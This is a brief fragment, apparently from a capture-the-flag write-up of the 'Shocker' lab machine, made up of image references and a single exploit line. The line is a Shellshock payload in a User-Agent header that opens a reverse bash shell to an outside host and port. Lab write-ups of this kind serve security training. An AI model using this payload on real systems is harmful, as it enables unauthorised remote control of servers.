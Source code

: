 ![](images-shocker/17.png)
![](images-shocker/user_flag.png)

**Exploit:**
- `User-Agent:() { :;};/bin/bash -i >& /dev/tcp/10.10.14.12/1234 0>&1`
